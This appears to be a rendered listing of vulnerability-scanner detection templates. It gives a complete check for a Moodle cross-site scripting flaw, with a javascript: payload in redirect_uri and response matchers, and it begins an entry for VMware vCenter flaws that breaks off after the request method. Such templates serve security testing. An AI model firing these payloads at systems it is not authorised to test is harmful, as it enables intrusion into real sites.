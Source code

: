 ## Description

- Moodle 3.10 to 3.10.3, 3.9 to 3.9.6, 3.8 to 3.8.8, and earlier unsupported versions contain a cross-site scripting vulnerability via the redirect_uri parameter.
- severity - medium
- tags - moodle,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/mod/lti/auth.php?redirect_uri=javascript:alert('{{randstr}}')

### Matchers

**Type - word**

- part - body
- words
  1. {{randstr}}
  2. \<form action="javascript:alert
- condition - and

**Type - status**

- status
  1. 200

**Type - word**

- part - header
- words
  1. text/html

---

# VMware vCenter - Server-Side Request Forgery/Local File Inclusion/Cross-Site Scripting

## Description

- VMware vCenter 7.0.2.00100 is susceptible to multiple vulnerabilities including server-side request forgery, local file inclusion, and cross-site scripting.
- severity - critical
- tags - ssrf,lfi,xss,oast,vcenter,vmware

## Requests

- Method - GET
